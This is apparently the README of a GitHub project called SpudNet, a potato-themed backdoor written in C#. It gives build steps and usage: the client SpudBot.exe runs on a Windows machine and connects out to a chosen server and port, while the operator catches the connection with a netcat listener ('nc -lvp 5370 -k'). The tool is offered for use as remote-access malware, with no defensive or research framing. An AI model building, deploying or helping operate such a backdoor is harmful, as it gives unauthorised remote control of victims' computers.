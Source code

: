 # SpudNet
---
## Description
A Potato-themed backdoor developed in C#. 

![SpudNet](screenshots/spudnet.png)

## Requirements
- .NET Framework ≥ 4.7
- A Windows client running SpudBot.exe.
- A server listening for incomming connections. 

## Installation
- Download a copy of the Github repo.
- Open **SpudBot.Sln** within Visual Studio.
- Build the solution within Visual Studio. 

## Usage
On the client, launch **SpudBot.exe** with Command-line arguments pointing to the server you would like to connect too. 
```
SpudBot.exe "Server" "Port"
```
On the server, setup a listener to watch for inbound connections.
```
nc -lvp 5370 -k
```
---
